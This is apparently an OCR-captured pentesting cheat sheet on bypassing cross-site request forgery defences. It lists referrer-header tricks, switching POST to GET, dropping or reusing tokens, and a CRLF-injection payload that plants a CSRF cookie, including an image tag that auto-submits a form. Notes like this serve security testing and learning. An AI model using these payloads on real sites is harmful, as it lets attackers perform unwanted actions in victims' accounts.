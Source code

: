 <h1>Cross-site request forgery (CSRF)</h1>
<h3>Test first:</h3>
<p><code>Referrer: https://example.com</code></p>
<p>if:</p>
<p>"Invalid referrer header" so:</p>
a
```js
<p><code>Referrer-Policy: unsafe-url</code></p>
```
<p>"Invalid referrer validation" so:</p>
<p><code><meta name="referrer" content="no-referrer"></code></p>
<p>else:</p>
<p>csrf without csrf protection - EZ</p>
<p>csrf validation depends on request method  - Change post to get</p>
<p>csrf delete csrf parameter or value.</p>
<p>csrf - drop request and test the token in other session </p>
<p>csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key</p>
<p><code><img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"></code></p>

